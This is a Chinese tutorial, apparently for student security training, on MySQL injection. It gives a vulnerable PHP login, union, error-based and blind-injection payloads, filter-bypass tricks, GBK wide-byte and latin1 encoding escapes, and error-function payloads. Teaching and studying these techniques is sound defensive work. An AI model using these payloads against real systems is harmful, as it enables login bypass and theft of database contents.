


# 前言

最近在给学校的社团成员进行web安全方面的培训，由于在mysql注入这一块知识点挺杂的，入门容易，精通较难，网上相对比较全的资料也比较少，大多都是一个比较散的知识点，所以我打算将我在学习过程中遇到的关于的mysql注入的内容给全部罗列出来，既方便个人之后的复习，也方便后人查找相关资料。

本文部分内容可能会直接截取其他大牛的文章，截取的内容我都会进行声明处理。如有侵权，请发email联系我(asp-php#foxmail.com)删除。

# Mysql简介

在正式讲解mysql注入的内容前，我认为还是有必要说明一下什么是mysql、mysql的特点是什么等内容，这些东西看起来可能对注入毫无帮助，开始却能很好的帮助我们学习，融会贯通。

> MySQL是一个关系型数据库管理系统，由瑞典 MySQL AB 公司开发，目前属于 Oracle 公司。MySQL 是一种**关联数据库管理系统**，关联数据库将数据保存在不同的表中，而不是将所有数据放在一个大仓库内，这样就增加了速度并提高了灵活性。
>
> - MySQL是**开源**的，所以你不需要支付额外的费用。
> - MySQL使用**标准的 SQL 数据语言**形式。
> - MySQL可以运行于多个系统上，并且**支持多种语言**。这些编程语言包括 C、C++、Python、Java、Perl、PHP、Eiffel、Ruby 和 Tcl 等。
> - MySQL**对PHP有很好的支持**，PHP 是目前最流行的 Web 开发语言。
> - MySQL**支持大型数据库**，支持 5000 万条记录的数据仓库，32 位系统表文件最大可支持 4GB，64 位系统支持最大的表文件为8TB。
> - MySQL是**可以定制的**，采用了 GPL 协议，你可以修改源码来开发自己的 MySQL 系统。
>
> 引自：[Mysql教程 | 菜鸟教程](https://www.runoob.com/mysql/mysql-tutorial.html)

一个完整的mysql管理系统结构通常如下图：


可以看到，mysql可以管理**多个数据库**，一个数据库可以包含**多个数据表**，而一个数据表有含有**多条字段**，一行数据正是**多个字段同一行**的一串数据。

# 什么是SQL注入？

简单的来说，SQL注入是开发者没有对用户的输入数据进行严格的限制/转义，致使用户在输入一些特定的字符时，在与后端设定的sql语句进行拼接时产生了歧义，使得用户可以控制该条sql语句与数据库进行通信。

举个例子：

```php
<?php
$conn = mysqli_connect($servername, $username, $password, $dbname);
if (!$conn) {
    die("Connection failed: " . mysqli_connect_error());
}
$username = @$_POST['username'];
$password = @$_POST['password'];
$sql = "select * from users where username = '$username' and password='$password';";
$rs = mysqli_query($conn,$sql);
if($rs->fetch_row()){
    echo "success";
}else{
    echo "fail";
}
?>
```

上述代码将模拟一个web应用程序进行登录操作。若登录成功，则返回success，否则，返回fail。

通常正常用户进行登录的sql语句为：

```
select * from users where username = '$username' and password='$password'
```

其中，变量$username 与变量$password为用户可以控制的内容，正常情况下，用户所输入的内容在sql语义上都将作为字符错，被赋值给前边的字段来当做整条select查询语句的筛选条件。

若用户输入的$username为`admin'#`，$password为`123`。那么拼接到sql语句中将得到如下结果：

```
select * from users where username = 'admin'#' and password='123'
```

这里的`#`是单行注释符，可以将后边的内容给注释掉。那么此条语句的语义将发生了变化，用户可以不需要判断密码，只需一个用户名，即可完成登录操作，这与开发者的初衷相悖。

# Mysql注入-入门

我们知道，在数据库中，常见的对数据进行处理的操作有：**增、删、查、改**这四种。

每一项操作都具有不同的作用，共同构成了对数据的绝大部分操作。

- 增。顾名思义，也就是增加数据。在通用的SQL语句中，其简单结构通常可概述为: `INSERT table_name(columns_name) VALUES(new_values)`。
- 删。删除数据。简单结构为: `DELETE table_name WHERE condition`。
- 查。查询语句可以说是绝大部分应用程序最常用到的SQL语句，他的作用就是查找数据。其简单结构为：`SELECT columns_name FROM table_name WHERE condition`。
- 改。有修改/更新数据。简单结构为:`UPDATE table_name SET column_name=new_value WHERE condition`。

PS：以上SQL语句中，系统关键字全部进行了大写处理。

## 查

mysql的查询语句完整格式如下：

```
SELECT
    [ALL | DISTINCT | DISTINCTROW ]
      [HIGH_PRIORITY]
      [STRAIGHT_JOIN]
      [SQL_SMALL_RESULT] [SQL_BIG_RESULT] [SQL_BUFFER_RESULT]
      [SQL_CACHE | SQL_NO_CACHE] [SQL_CALC_FOUND_ROWS]
    select_expr [, select_expr ...]
    [FROM table_references
      [PARTITION partition_list]
    [WHERE where_condition]
    [GROUP BY {col_name | expr | position}
      [ASC | DESC], ... [WITH ROLLUP]]
    [HAVING where_condition]
    [ORDER BY {col_name | expr | position}
      [ASC | DESC], ...]
    [LIMIT {[offset,] row_count | row_count OFFSET offset}]
    [PROCEDURE procedure_name(argument_list)]
    [INTO OUTFILE 'file_name'
        [CHARACTER SET charset_name]
        export_options
      | INTO DUMPFILE 'file_name'
      | INTO var_name [, var_name]]
    [FOR UPDATE | LOCK IN SHARE MODE]]
```

通常注入点发生在where_condition处，并不是说唯有此处可以注入，其他的位置也可以，只是我们先将此处的注入当做例子来进行讲解，之后会逐渐降到其他的位置该如何进行注入。

对于`SELECT`语句，我们通常分其为两种情况：有回显和无回显。

### 有回显

什么叫有回显？别急，我们来举个例子。

当我们点击一篇文章阅读时，其URL为`read.php?id=1`，我们可以很容易地猜出其SQL语句可能为`select * from articles where id='$id'`。

这时候页面将SQL语句返回的内容显示在了页面中(本例中是标题、内容、作者等信息)，这种情况就叫有回显。

对于有回显的情况来说，我们通常使用**联合查询注入法**。

#### 联合查询注入

其作用就是，在原来查询条件的基础上，通过系统关键字`union`从而拼接上我们自己的`select`语句，后个`select`得到的结果将拼接到前个`select`的结果后边。如：前个`select`得到2条数据，后个`select`得到1条数据，那么后个`select`的数据将作为**第3条**拼接到第一个`select`返回的内容中，其字段名将**按照位置**关系进行继承。

如：`正常查询语句 union select columns_name from (database.)table_name where condition`

这里需要注意的是：

- 若回显仅支持一行数据的话，记得**让前边正常的查询语句返回的结果为空**。
- 使用union select进行拼接时，注意**前后两个select语句的返回的字段数必须相同**，否则无法拼接。

### 无回显

什么叫无回显？之前举得登录判断就是一个无回显的例子。如果SQL语句存在返回的数据，那么页面输出为success，若不存在返回的数据，则输出fail。

与有回显情况不同的是：无回显的页面输出内容并不是SQL语句返回的内容。

对于无回显的情况，我们通常可用两种方法进行注入：**报错注入**与**盲注**。

#### 报错注入

什么是报错注入，简单的说，就是有些特殊的函数，会在其报错信息里可能会返回其参数的值。

我们可以利用这一特性，在其参数放入我们想要得到的数据，通常使用子查询的方法实现，最后让其报错并输出结果。

```
正常语句 (where | and) exp(~(select * from(select user())a));

正常语句 (where | and) updatexml(1,concat(0x7e,(select user()),0x7e),1);
```

#### 盲注

若网站设置了无报错信息返回，那么在**不直接返回数据+不返回报错信息**的情况下，盲注便几乎成了最后一种直接注入取数据的方法了。

其中，盲注分成**布尔盲注**和**时间盲注**。

##### 布尔盲注

对于布尔盲注来说，其使用的场景在于：**对真/假条件返回的内容很容易区分**。

比如说，有这么一条正常的select语句，我们再起where条件后边加上and 1=2，我们知道，1永远不等于2，那么这个条件就是一个永假条件，我们使用and语句连上，那么整个where部分就是永假的，这时候select语句是不会返回内容的。将其返回的内容与正常页面进行对比，如果很容易区分的话，那么布尔盲注试用。

如：`正常语句 (where | and) if(substr((select password from users where username='admin'),1,1)='a',1,0)`

##### 时间盲注

相比较于布尔盲注，时间盲注依赖于通过**页面返回的延迟时间**来判断条件是否正确。

使用场景：布尔盲注永假条件所返回的内容与正常语句返回的内容很接近/相同，无法判断情况。

简单的来说，时间盲注就是，如果我们自定义的条件为假的话，我们让其0延迟通过，如果条件为真的话，使用sleep()等函数，让sql语句的返回产生延迟。

如：`正常语句（where | and）if(substr((select password from users where username='admin'),1,1)='a',sleep(3),1)`

最后总结一下:

常见注入方法有三种：`联合查询注入、报错注入、盲注`，其中：

- 有回显：**三种均可使用**，推荐使用联合查询注入。
- 无回显：**报错注入+盲注可用**。

对于时间成本来说：联合查询注入<报错注入<<盲注。

通常情况下，盲注需要一个一个字符的进行判断。这极大的增加了时间成本，况且对于时间盲注来说，还需要额外的延迟时间来作为判断的标准。

### 三大注入的基本步骤

#### 联合查询注入步骤

1) 首先，先确定字段数量。

使用`order/group by`语句。通过往后边拼接数字，可确定字段数量，**若大于，则页面错误/无内容，若小于或等于，则页面正常**。若错误页与正常页一样，更换报错注入/盲注。

2) 第二步，判断页面回显数据的字段位置。

使用`union select 1,2,3,4,x...` 我们定义的数字将显示在页面上，即可从中判断页面显示的字段位置。

注意：

- 若确定页面有回显，但是页面中并没有我们定义的特殊标记数字出现，可能是页面现在了单行数据输出，我们让前边的`select`查询条件返回结果为空即可。
- 注意一定要拼接够足够的字段数，否则SQL语句报错。PS：此方法也可作为判断前条`select`语句的方法之一。
- 第三步，在显示的字段位置使用子查询来查询数据，或直接查询也可。

首先，查询当前数据库名database()、数据库账号user()、数据库版本version()等基本情况，再根据不同的版本、不同的权限确定接下来的方法。

##### 若Mysql版本<5.0

简单的说，由于mysql的低版本缺乏系统库**information_schema**，故通常情况下，我们无法直接查询表名，字段(列)名等信息，这时候只能靠**猜**来解决。

直接猜表名与列名是什么，甚至是库名，再使用联合查询取数据。

若知道仅表名而不知道列(字段)名：

可通过以下payload：

- 若多字段：select `x` from(select 1,2,3,4,xxx from table_name union select * from table_name)a
- 若单字段：select *,1,2,xxx from table_name

##### 若Mysql版本>=5.0

首先去一个名为**information_schema**的数据库里的**shemata**数据表查询**全部数据库名**。

若不需要跨数据库的话，可直接跳过此步骤，直接查询相应的数据库下的全部数据表名。

在information_schema的一个名为**tables**的数据表中存着全部的**数据表信息**。

其中，**table_name 字段保存其名称**，**table_schema保存其对应的数据库名**。

```
union select 1,2,group_concat(table_name),4,xxxx from information_schema.tables where table_schema=database();
```

上述payload可查看全部的数据表名，其中group_concat函数将多行数据转成一行数据。

接着通过其表名，查询该表的所有字段名，有时也称列名。

通过information_schema库下的**columns**表可查询对应的数据库/数据库表含有的字段名。

```
Union select 1,2,group_concat(column_name),4,xxxx from information_schema.columns where table_schema=database() and table_name=(table_name)#此处的表名为字符串型，也通过十六进制表示
```

知道了想要的数据存放的数据库、数据表、字段名，直接联合查询即可。

```
Union select 1,2,column_name,4,xxx from (database_name.)table_name
```

简单的说，**查库名->查表名->查字段名->查数据**

### 盲注步骤：

核心：利用**逻辑代数连接词/条件函数**，让页面**返回的内容/响应时间**与正常的页面不符。

#### *布尔盲注：*

首先通过页面对于永真条件`or 1=1`与永假条件`and 1=2`的返回内容是否存在差异进行判断是否可以进行布尔盲注。

如：`select * from users where username=$username`，其作用设定为*判断用户名是否存在*。

通常仅返回**存在/不存在**，两个结果。

这时候我们就不能使用联合查询法注入，因为页面显示SQL语句返回的内容，只能使用**盲注法/报错注入法**来注出数据。

我们在将语句注入成：`select * from users where username=$username or (condition)`

若后边拼接的条件为真的话，那么整条语句的where区域将变成**永真**条件。

那么，即使我们在$username处输入的用户名为一个铁定不存在的用户名，那么返回的结果也仍然为存在。

利用这一特性，我们的condition为：length(database())>8 即可用于判断数据库名长度

除此之外，还可：ascii(substr(database(),1,1))<130 用二分法快速获取数据名(逐字判断)

payload如下：

```
select * from users where username=nouser or length(database())>8
select * from users where username=nouser or ascii(substr(database(),1,1))<130
```

#### *时间盲注：*

通过判断页面**返回内容的响应时间差异**进行条件判断。

通常可利用的产生时间延迟的函数有：**sleep()、benchmark()**，还有许多进行**复杂运算的函数**也可以当做延迟的判断标准、笛卡尔积合并数据表、GET_LOCK双SESSION产生延迟等方法。

如上述例子：若服务器在执行永真/永假条件并不直接返回两个容易区分的内容时，利用时间盲注或许是个更好的办法。

在上述语句中，我们拼接语句，变成：

```
select * from users where username=$username (and | or) if(length(database())>8,sleep(3),1)
```

如果数据库名的长度大于8，那么if条件将执行sleep(3)，那么此条语句将进行延迟3秒的操作。

若小于或等于8，则if条件直接返回1，并与前边的逻辑连接词拼接，无延迟直接返回。通常的响应时间在0-1秒之内，与上种情况具有很容易区分的结果，可做条件判断的依据。

### 报错注入步骤：

通过**特殊函数**的错误使用使其参数被页面输出。

前提：服务器开启报错信息返回，也就是发生错误时返回报错信息。

常见的利用函数有：`exp()、floor()+rand()、updatexml()、extractvalue()`等

如：`select * from users where username=$username (and | or) updatexml(1,concat(0x7e,(select user()),0x7e),1)`

因为updatexml函数的第二个参数需要满足xpath格式，我们在其前后添加字符~，使其不满足xpath格式，进行报错并输出。

将上述payload的(select user())当做联合查询法的注入位置，接下来的操作与联合查询法一样。

注意：

- 报错函数通常尤其最长报错输出的限制，面对这种情况，可以进行分割输出。
- 特殊函数的特殊参数进运行一个字段、一行数据的返回，使用group_concat等函数聚合数据即可。

## 增、删、改

可简单当做无回显的Select语句进行注入。值得注意的是，通常增`insert`处的注入点在测试时会产生大量的垃圾数据，删delete处的注入千万要注意where条件不要为永真。

# Mysql注入-进阶

到目前为止，我们讲了Mysql注入的基本入门，那么接下来我将会花费大部分时间介绍我学习mysql注入遇到的一些知识点。

## 常见防御手段绕过

在讲绕过之前，我认为有必要先讲讲什么是：过滤与拦截。

简单的说就是：过滤指的是，我们输入的部分内容在拼接SQL语句之前被程序删除掉了，接着将过滤之后的内容拼接到SQL语句并继续与数据库通信。而拦截指的是：若检测到指定的内容存在，则直接返回拦截页面，同时不会进行拼接SQL语句并与数据库通信的操作。

若程序设置的是过滤，则若过滤的字符不为单字符，则可以使用双写绕过。

举个例子：程序过滤掉了`union`这一关键词，我们可以使用`ununionion`来绕过。

PS：一般检测方法都是利用的正则，注意观察正则匹配时，是否忽略大小写匹配，若不忽略，直接使用大小写混搭即可绕过。

### and/or 被过滤/拦截

1. 双写`anandd、oorr`
2. 使用运算符代替`&&、||`
3. 直接拼接`=`号，如：`?id=1=(condition)`
4. 其他方法，如：`?id=1^(condition)`

### 空格被过滤/拦截

1. 多层括号嵌套
2. 改用+号
3. 使用注释代替
4. `and/or`后面可以跟上偶数个`!、~`可以替代空格，也可以混合使用(规律又不同)，and/or前的空格可用省略
5. `%09, %0a, %0b, %0c, %0d, %a0`等部分不可见字符可也代替空格

如：`select * from user where username='admin'union(select+title,content/**/from/*!article*/where/**/id='1'and!!!!~~1=1)`

### 括号被过滤/拦截

- order by 大小比较盲注

### 逗号被过滤/拦截

1. 改用盲注
2. 使用join语句代替
3. `substr(data from 1 for 1)`相当于`substr(data,1,1)`、`limit 9 offset 4`相当于`limt 9,4`

### 其他系统关键字被过滤/拦截

1. 双写绕过关键字过滤
2. 使用同义函数/语句代替，如if函数可用`case when condition then 1 else 0 end`语句代替。

### 单双引号被过滤/拦截/转义

1. 需要跳出单引号的情况：尝试是否存在编码问题而产生的SQL注入。
2. 不需要跳出单引号的情况：字符串可用十六进制表示、也可通过进制转换函数表示成其他进制。

### 数字被过滤/拦截

> 下表摘自[MySQL注入技巧](https://wooyun.js.org/drops/MySQL注入技巧.html)

| 代替字符                    | 数   | 代替字符                  | 数、字 | 代替字符 | 数、字                       |      |      |
| --------------------------- | ---- | ------------------------- | ------ | -------- | ---------------------------- | ---- | ---- |
| false、!pi()                | 0    | ceil(pi()*pi())           | 10\    | A        | ceil((pi()+pi())*pi())       | 20\  | K    |
| true、!(!pi())              | 1    | ceil(pi()*pi())+true      | 11\    | B        | ceil(ceil(pi())*version())   | 21\  | L    |
| true+true                   | 2    | ceil(pi()+pi()+version()) | 12\    | C        | ceil(pi()*ceil(pi()+pi()))   | 22\  | M    |
| floor(pi())、~~pi()         | 3    | floor(pi()*pi()+pi())     | 13\    | D        | ceil((pi()+ceil(pi()))*pi()) | 23\  | N    |
| ceil(pi())                  | 4    | ceil(pi()*pi()+pi())      | 14\    | E        | ceil(pi())*ceil(version())   | 24\  | O    |
| floor(version()) //注意版本 | 5    | ceil(pi()*pi()+version()) | 15\    | F        | floor(pi()*(version()+pi())) | 25\  | P    |
| ceil(version())             | 6    | floor(pi()*version())     | 16\    | G        | floor(version()*version())   | 26\  | Q    |
| ceil(pi()+pi())             | 7    | ceil(pi()*version())      | 17\    | H        | ceil(version()*version())    | 27\  | R    |
| floor(version()+pi())       | 8    | ceil(pi()*version())+true | 18\    | I        | ceil(pi()*pi()*pi()-pi())    | 28\  | S    |
| floor(pi()*pi())            | 9    | floor((pi()+pi())*pi())   | 19\    | J        | floor(pi()*pi()*floor(pi())) | 29\  | T    |

## 编码转换产生的问题

### 宽字节注入

什么是宽字节注入？下面举个例子来告诉你。

```php
<?php
$conn = mysqli_connect("127.0.0.1:3307", "root", "root", "db");
if (!$conn) {
    die("Connection failed: " . mysqli_connect_error());
}
$conn->query("set names 'gbk';");
$username = addslashes(@$_POST['username']);
$password = addslashes(@$_POST['password']);
$sql = "select * from users where username = '$username' and password='$password';";
$rs = mysqli_query($conn,$sql);
echo $sql.'<br>';
if($rs->fetch_row()){
    echo "success";
}else{
    echo "fail";
}
?>
```

还是开头的例子，只不过加了点料。

```
$conn->query("set names 'gbk';");
$username = addslashes(@$_POST['username']);
$password = addslashes(@$_POST['password']);
```

`addslashes`函数将会把POST接收到的username与password的部分字符进行转义处理。如下：

- 字符`'、"、\`前边会被添加上一条反斜杠`\`作为转义字符。
- 多个空格被过滤成一个空格。

这使得我们原本的payload被转义成如下：

```
select * from users where username = 'admin\'#' and password='123';
```

注意：我们输入的单引号被转义掉了，此时SQL语句的功能是：查找用户名为`admin'#`且密码为123的用户。

但是我们注意到，在拼接SQL语句并与数据库进行通信之前，我们执行了这么一条语句：

```
$conn->query("set names 'gbk';");
```

其作用相当于：

```
mysql>SET character_set_client ='gbk';
mysql>SET character_set_results ='gbk';
mysql>SET character_set_connection ='gbk';
```

当我们输入的数据为：`username=%df%27or%201=1%23&password=123`

经过addslashes函数处理最终变成：`username=%df%5c%27or%201=1%23&password=123`

经过gbk解码得到：`username=運'or 1=1#`、`password=123`，拼接到SQL语句得：

```
select * from users where username = '運'or 1=1#' and password='123';
```

成功跳出了addslashes的转义限制。

#### 具体解释

前边提到：`set names 'gbk';`相当于执行了如下操作：

```
mysql>SET character_set_client ='gbk';
mysql>SET character_set_results ='gbk';
mysql>SET character_set_connection ='gbk';
```

那么此时在SQL语句在与数据库进行通信时，会先将SQL语句进行对应的`character_set_client`所设置的编码进行转码，本例是gbk编码。

由于PHP的编码为`UTF-8`，我们输入的内容为`%df%27`，会被当做是两个字符，其中`%27`为单引号`'`。

经过函数`addslashes`处理变成`%df%5c%27`，`%5c`为反斜线`\`。

在经过客户端层`character_set_client`编码处理后变成：`運'`，成功将反斜线给“吞”掉了，使单引号逃逸出来。

### Latin1默认编码

讲完了gbk造成的编码问题，我们再讲讲latin1造成的编码问题。

老样子，先举个例子。

```
<?php
//该代码节选自：离别歌's blog
$mysqli = new mysqli("localhost", "root", "root", "cat");

/* check connection */
if ($mysqli->connect_errno) {
    printf("Connect failed: %s\n", $mysqli->connect_error);
    exit();
}

$mysqli->query("set names utf8");

$username = addslashes($_GET['username']);

//我们在其基础上添加这么一条语句。
if($username === 'admin'){
    die("You can't do this.");
}

/* Select queries return a resultset */
$sql = "SELECT * FROM `table1` WHERE username='{$username}'";

if ($result = $mysqli->query( $sql )) {
    printf("Select returned %d rows.\n", $result->num_rows);

    while ($row = $result->fetch_array(MYSQLI_ASSOC))
    {
        var_dump($row);
    }

    /* free result set */
    $result->close();
} else {
    var_dump($mysqli->error);
}

$mysqli->close();
?>
```

建表语句如下：

```
CREATE TABLE `table1` (
  `id` int(10) unsigned NOT NULL AUTO_INCREMENT,
  `username` varchar(255) COLLATE latin1_general_ci NOT NULL,
  `password` varchar(255) COLLATE latin1_general_ci NOT NULL,
  PRIMARY KEY (`id`)
) ENGINE=MyISAM AUTO_INCREMENT=1 DEFAULT CHARSET=latin1 COLLATE=latin1_general_ci;
```

我们设置表的编码为latin1，事实上，就算你不填写，默认编码便是latin1。

我们往表中添加一条数据：`insert table1 VALUES(1,'admin','admin');`

注意查看源代码：

```
if($username === 'admin'){
    die("You can't do this.");
}
```

我们对用户的输入进行了判断，若输入内容为admin，直接结束代码输出返回，并且还对输出的内容进行addslashes处理，使得我们无法逃逸出单引号。

这样的话，我们该怎样绕过这个限制，让页面输出admin的数据呢？

我们注意到：`$mysqli->query("set names utf8");`这么一行代码，在连接到数据库之后，执行了这么一条SQL语句。

上边在gbk宽字节注入的时候讲到过：`set names utf8;`相当于：

```
mysql>SET character_set_client ='utf8';
mysql>SET character_set_results ='utf8';
mysql>SET character_set_connection ='utf8';
```

前边说道：PHP的编码是`UTF-8`，而我们现在设置的也是`UTF-8`，怎么会产生问题呢？

别着急，让我接着往下说。前边我们提到：SQL语句会先转成`character_set_client`设置的编码。但，他接下来还会继续转换。`character_set_client`客户端层转换完毕之后，数据将会交给`character_set_connection`连接层处理，最后在从`character_set_connection`转到数据表的内部操作字符集。

来本例中，字符集的转换为：`UTF-8—>UTF-8->Latin1`

这里需要讲一下UTF-8编码的一些内容。

> UTF-8编码是变长编码，可能有1~4个字节表示：
>
> 1. 一字节时范围是`[00-7F]`
> 2. 两字节时范围是`[C0-DF][80-BF]`
> 3. 三字节时范围是`[E0-EF][80-BF][80-BF]`
> 4. 四字节时范围是`[F0-F7][80-BF][80-BF][80-BF]`
>
> 然后根据RFC 3629规范，又有一些字节值是不允许出现在UTF-8编码中的：
>
> 
>
> 所以最终，UTF-8第一字节的取值范围是：00-7F、C2-F4。
>
> 关于所有的UTF-8字符，你可以在这个表中一一看到： http://utf8-chartable.de/unicode-utf8-table.pl
>
> 引自：[Mysql字符编码利用技巧](https://www.leavesongs.com/PENETRATION/mysql-charset-trick.html)

利用这一特性，我们输入：`?username=admin%c2`，`%c2`是一个Latin1字符集不存在的字符。

由上述，可以简单的知道：%00-%7F可以直接表示某个字符、%C2-%F4不可以直接表示某个字符，他们只是其他长字节编码结果的首字节。

但是，这里还有一个Trick：Mysql所使用的UTF-8编码是阉割版的，仅支持三个字节的编码。所以说，Mysql中的UTF-8字符集只有最大三字节的字符，首字节范围：`00-7F、C2-EF`。

而对于不完整的长字节UTF-8编码的字符，若进行字符集转换时，会直接进行忽略处理。

利用这一特性，我们的payload为`?username=admin%c2`，此处的`%c2`换为`%c2-%ef`均可。

```
SELECT * FROM `table1` WHERE username='admin'
```

因为`admin%c2`在最后一层的内部操作字符集转换中变成`admin`。

## 报错注入原理

我们前边说到，报错注入是通过特殊函数错误使用并使其输出错误结果来获取信息的。

那么，我们具体来说说，都有哪些特殊函数，以及他们都该怎么使用。

MySQL的报错注入主要是利用MySQL的一些逻辑漏洞，如BigInt大数溢出等，由此可以将MySQL报错注入分为以下几类：

- BigInt等数据类型溢出
- 函数参数格式错误
- 主键/字段重复

### exp()

函数语法：`exp(int)`

适用版本：5.5.5~5.5.49

该函数将会返回e的x次方结果。正常如下图：


为什么会报错呢？我们知道，次方到后边每增加1，其结果都将跨度极大，而mysql能记录的double数值范围有限，一旦结果超过范围，则该函数报错。如下图：


我们的payload为：`exp(~(select * from(select user())a))`

其中，~符号为运算符，意思为一元字符反转，通常将字符串经过处理后变成大整数，再放到exp函数内，得到的结果将超过mysql的double数组范围，从而报错输出。至于为什么需要用两层子查询，这点我暂时还没有弄明白，欢迎有了解的大牛找我讨论: )

除了`exp()`之外，还有类似`pow()`之类的相似函数同样是可利用的，他们的原理相同。

### updatexml()

函数语法：`updatexml(XML_document, XPath_string, new_value);`

适用版本: 5.1.5+

我们通常在第二个xpath参数填写我们要查询的内容。

与exp()不同，updatexml是由于参数的格式不正确而产生的错误，同样也会返回参数的信息。

payload: `updatexml(1,concat(0x7e,(select user()),0x7e),1)`

前后添加~使其不符合xpath格式从而报错。

### extractvalue()

函数语法：`EXTRACTVALUE (XML_document, XPath_string);`

适用版本：5.1.5+

利用原理与updatexml函数相同

payload: `and (extractvalue(1,concat(0x7e,(select user()),0x7e)))`

### rand()+group()+count()

虚拟表报错原理：简单来说，是由于where条件每执行一次，rand函数就会执行一次，如果在由于在统计数据时判断依据不能动态改变，故`rand()`不能后接在`order/group by`上。

举一个例子：假设user表有三条数据，我们通过：`select * from user group by username` 来通过其中的username字段进行分组。

此过程会先建立一个**虚拟表**，存在两个字段：`key，count`

其中我们通过username来判断，其在此处是字段，首先先取第一行的数据：`username=test&password=test`

username为test出现一次，则现在虚表内查询是否存在test，若存在，则count+1，若不存在，则添加test，其count为1。

对于`floor(rand(0)*2)`，其中`rand()`函数，会生成0~1之间随机一个小数、`floor()`取整数部分、0是随机因子、乘2是为了让大于0.5的小数通过floor函数得1，否则永远为0。

若表中有三行数据：我们通过`select * from user group by floor(rand(0)*2)`进行排序的话。

注意，由于`rand(0)`的随机因子是被固定的，故其产生的随机数也被固定了，顺序为：011011…

首先`group by`需要执行的话，需要确定分组因子，故`floor(rand(0)*2)`被执行一次，得到的结果为0，接着在虚表内检索0，发现虚表没有键值为0的记录，故添加上，在进行添加时：`floor(rand(0)*2)`第二次被执行，得到结果1，故虚表插入的内容为`key=1&count=1`。

第二次执行group by时：`floor(rand(0)*2)`先被运行一次，也就是第三次运行。得到结果1，查询虚表发现数据存在，因而直接让虚表内的key=1的count加一即可，floor(..)只运行了一次。

第三次执行group by时，floor被执行第四次，得到结果0，查询虚表不存在。再插入虚表时，floor(…)被执行第五次，得到结果1，故此时虚表将插入的值为`key=1&count=1`，注意，此时虚表已有一条记录为：`key=1&count=2`，并且字段key为**主键**，具有不可重复性，故虚表在尝试插入时将产生错误。

图文：

> 1.查询前默认会建立空虚拟表如下图:
>
> 
>
> 2.取第一条记录，执行floor(rand(0)*2)，发现结果为0(第一次计算),查询虚拟表，发现0的键值不存在，则floor(rand(0)*2)会被再计算一次，结果为1(第二次计算)，插入虚表，这时第一条记录查询完毕，如下图:
>
> 
>
> 3.查询第二条记录，再次计算floor(rand(0)*2)，发现结果为1(第三次计算)，查询虚表，发现1的键值存在，所以floor(rand(0)*2)不会被计算第二次，直接count(*)加1，第二条记录查询完毕，结果如下:
>
> 
>
> 4.查询第三条记录，再次计算floor(rand(0)*2)，发现结果为0(第4次计算)，查询虚表，发现键值没有0，则数据库尝试插入一条新的数据，在插入数据时floor(rand(0)*2)被再次计算，作为虚表的主键，其值为1(第5次计算)，然而1这个主键已经存在于虚拟表中，而新计算的值也为1(主键键值必须唯一)，所以插入的时候就直接报错了。
>
> 5.整个查询过程floor(rand(0)*2)被计算了5次，查询原数据表3次，所以这就是为什么数据表中需要3条数据，使用该语句才会报错的原因。
>
> 引自：——[Mysql报错注入原理分析(count()、rand()、group by)](http://drops.wooyun.org/tips/14312)

payload用法: `union select count(*),2,concat(':',(select database()),':',floor(rand()*2))as a from information_schema.tables group by a`

### 几何函数

- GeometryCollection：`id=1 AND GeometryCollection((select * from (select* from(select user())a)b))`
- polygon()：`id=1 AND polygon((select * from(select * from(select user())a)b))`
- multipoint()：`id=1 AND multipoint((select * from(select * from(select user())a)b))`
- multilinestring()：`id=1 AND multilinestring((select * from(select * from(select user())a)b))`
- linestring()：`id=1 AND LINESTRING((select * from(select * from(select user())a)b))`
- multipolygon() ：`id=1 AND multipolygon((select * from(select * from(select user())a)b))`

### 不存在的函数

随便适用一颗不存在的函数，可能会得到当前所在的数据库名称。



### Bigint数值操作：

当mysql数据库的某些边界数值进行数值运算时，会报错的原理。

如~0得到的结果：18446744073709551615

若此数参与运算，则很容易会错误。

payload: `select !(select * from(select user())a)-~0;`

### name_const()

仅可取数据库版本信息

payload: `select * from(select name_const(version(),0x1),name_const(version(),0x1))a`

### uuid相关函数

适用版本：8.0.x

参数格式不正确。

```
mysql> SELECT UUID_TO_BIN((SELECT password FROM users WHERE id=1));
mysql> SELECT BIN_TO_UUID((SELECT password FROM users WHERE id=1));
```

### join using()注列名

通过系统关键词join可建立两个表之间的内连接。

通过对想要查询列名的表与其自身建议内连接，会由于冗余的原因(相同列名存在)，而发生错误。

并且报错信息会存在重复的列名，可以使用 **USING** 表达式声明内连接（INNER JOIN）条件来避免报错。

```
mysql>select * from(select * from users a join (select * from users)b)c;
mysql>select * from(select * from users a join (select * from users)b using(username))c;
mysql>select * from(select * from users a join (select * from users)b using(username,password))c
```

### GTID相关函数

参数格式不正确。

```
mysql>select gtid_subset(user(),1);
mysql>select gtid_subset(hex(substr((select * from users limit 1,1),1,1)),1);
mysql>select gtid_subtract((select * from(select user())a),1);
```

### 报错函数速查表

注：默认MYSQL_ERRMSG_SIZE=512

| 类别              | 函数                                                         | 版本需求        | 5.5.x | 5.6.x | 5.7.x | 8.x  | 函数显错长度 | Mysql报错内容长度 | 额外限制            |
| ----------------- | ------------------------------------------------------------ | --------------- | ----- | ----- | ----- | ---- | ------------ | ----------------- | ------------------- |
| 主键重复          | floor round                                                  | ❓               | ✔️     | ✔️     | ✔️     |      | 64           |                   | data_type ≠ varchar |
| 列名重复          | name_const                                                   | ❓               | ✔️     | ✔️     | ✔️     | ✔️    |              |                   | only version()      |
| 列名重复          | join                                                         | [5.5.49, ?)     | ✔️     | ✔️     | ✔️     | ✔️    |              |                   | only columns        |
| 数据溢出 - Double | 1e308 cot exp pow                                            | [5.5.5, 5.5.48] | ✔️     |       |       |      |              | MYSQL_ERRMSG_SIZE |                     |
